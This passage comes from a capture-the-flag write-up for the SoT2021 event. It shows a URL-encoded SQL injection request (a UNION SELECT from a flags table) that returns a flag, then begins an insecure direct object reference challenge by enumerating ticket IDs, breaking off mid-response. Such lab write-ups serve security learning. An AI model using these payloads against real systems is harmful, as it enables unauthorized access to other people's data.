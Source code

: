 
The next step is to extract the flag:

```
GET /v1/users/0"%20union%20select%201,flag,3,4,5,6%20from%20flags;%20--%20 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": [
        {
            "username": "SoT2021_Flag{c779f6cad9d33f042c1dd08f46e876a7}",
        }
    ]
}
```

And thus revealing flag 7: `SoT2021_Flag{c779f6cad9d33f042c1dd08f46e876a7}`

# Flag 6: Ticket

Flag 6 is called `Ticket`. By this time I've registered an account and have played around with the application a bit, and I've noticed a few apparent IDs in the URL that correspond with my user and my tickets, and I wonder if these are vulnerable to [Insecure Direct Object Reference](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References). I start decrementing these and in the response for `/v1/tickets/2` I find the following:

```
GET /v1/tickets/2 HTTP/2
Host: aura-api.sot2021.aurahacks.co.nz
```

```json
{
    "status": 200,
    "message": "Success",
    "data": {
        "id": 2,
        "title": "Incorrect flag",
        "user": {
            "id": 2,
            "username": "sd-chris",
            "details": null,
            "birthdate": null,
            "jobTitle": null
        },
        "history": [
            {
                "id": 4,
                "status": "open",
                "eventType": "created",
                "changeTime": 1584923400000,
                "user": {
                    "id": 2,
                    "username": "sd-chris",
                    "details": null,
                    "birthdate": null,
                    "jobTitle": null
                }
            }
        ],
        "messages": [
            {
```